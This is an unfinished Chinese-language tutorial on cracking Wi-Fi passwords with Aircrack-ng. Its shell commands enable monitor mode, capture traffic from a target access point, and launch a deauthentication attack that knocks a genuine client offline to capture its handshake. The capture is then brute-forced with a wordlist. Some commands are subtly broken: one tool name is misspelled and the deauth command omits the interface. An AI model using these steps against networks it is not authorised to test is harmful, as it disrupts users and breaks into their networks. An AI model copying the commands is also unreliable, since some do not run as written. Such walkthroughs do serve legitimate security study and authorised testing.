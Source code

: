 # Aircrack-ng

[Aircrack-ng 官网](https://www.aircrack-ng.org/)

:::warning
此文档还未完善 #TODO
:::

## 使网卡进入监听模式

查看当前无线网卡标识

```sh
ip a
```

激活网卡

```sh
airmon-ng start wlan0
```

激活后再次查看网卡标识，会发现名称后面多了个`mon`

## 寻找目标AP

使用`airodump-ng`抓包

```sh
airodump-ng wlan0mon
```

条件
* 有用户已经连上了目标AP。
* 目标的信号足够稳定

需要记住的目标AP相关信息：

* BSSID
* MAC地址
* 频道

## 监听目标频道

假设频道是11，将监听记录写入`ch11`开头的文件中

实际生成的文件名形如 `ch11-01.cap`

```sh
ariodump-ng -c 11 -w ch11 wlan0mon
```

## 等待握手包

当有设备尝试连接目标AP时，airodump-ng就能捕获其握手数据报文。

可以通过 deauth 攻击迫使其他设备重新连接。

首先找一个连上了 airodump-ng 的较活跃的客户端，记住其MAC地址。用`aireplay-ng`命令伪装成该地址向AP发起攻击。

```sh
AP=目标AP的MAC地址
CLIENT=伪装成的客户端MAC地址
aireplay-ng -0 2 -a $AP -c $CLIENT
```

发起攻击后，那个真正的客户端会断网，可能会立即尝试重新连接，于是就可以捕获到握手数据报文了。

## 暴力破解

首先需要拥有字典。

::: info
可以使用Crunch工具生成字典。
:::

```sh
aircrack-ng -w dict.txt ch11-01.cap
```
